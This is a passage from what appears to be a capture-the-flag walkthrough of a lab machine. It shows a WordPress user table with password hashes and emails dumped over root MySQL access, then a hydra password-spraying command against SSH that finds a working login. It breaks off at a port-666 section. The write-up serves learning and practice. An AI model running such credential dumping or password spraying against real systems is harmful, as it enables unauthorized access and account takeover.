 ```
mysql> select * from wp_users;
<...snip...>
| 11 | ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 | zoe           | zoe@red.localhost     |                  | 2016-06-05 16:19:50 |                     |           0 | ZOE             |
| 12 | Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. | dave          | dave@red.localhost    |                  | 2016-06-05 16:20:09 |                     |           0 | Dave            |
| 13 | Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 | simon         | simon@red.localhost   |                  | 2016-06-05 16:20:35 |                     |           0 | Simon           |
| 14 | Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. | abby          | abby@red.localhost    |                  | 2016-06-05 16:20:53 |                     |           0 | Abby            |
| 15 | Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 | vicki         | vicki@red.localhost   |                  | 2016-06-05 16:21:14 |                     |           0 | Vicki           |
| 16 | Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 | pam           | pam@red.localhost     |                  | 2016-06-05 16:42:23 |                     |           0 | Pam             |
+----+------------+------------------------------------+---------------+-----------------------+------------------+---------------------+---------------------+-------------+-----------------+
16 rows in set (0.00 sec)
```

Nice! All of the users and their password hashes as well as their emails. And after digging around further we also have access to entries like such as payment history and other sensitive information. A goldmine!

Well anyway, since we could login to the sql database as root, I tried ssh’ing into root as well but it didn’t work. So I instead just sprayed the password to the other accounts.

```
$ hydra -L users.out -p plbkac 192.168.217.148 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-15 12:19:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28 login tries (l:28/p:1), ~2 tries per task
[DATA] attacking ssh://192.168.217.148:22/
[22][ssh] host: 192.168.217.148   login: zoe   password: plbkac
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-15 12:19:35
```

Wow! A hit. Zoe didn’t have many privileges, but we pwned her account.

## Unanswered Questions…

Well that was the box mostly! The only other ports were 53 and 666. 53 returned nothing no matter what I through at it (it would just disconnect instantly) so I wasn’t sure what it was for. 

Port 666 turned out to have something for us:
